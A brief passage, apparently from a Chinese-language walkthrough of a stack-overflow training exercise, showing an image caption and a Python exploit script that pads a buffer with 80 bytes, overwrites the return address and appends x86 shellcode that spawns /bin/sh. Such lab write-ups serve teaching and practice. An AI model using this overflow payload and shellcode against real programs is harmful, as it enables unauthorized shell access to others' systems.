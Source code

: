     <img src="1-28.png"
         alt="1-28.png"
         style="100%"/>
    <br>  <!--换行-->
    Picture 1-28 <!--标题-->
    </center>
</div>

那么这个方法我们在stack6中的方法一就使用过了，因此这里直接展示exp脚本：

```python
payload = "A"*80
address = "\x44\x85\x04\x08"
address += "\x94\xfc\xff\xbf"
shellcode =  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print payload + address + shellcode
```
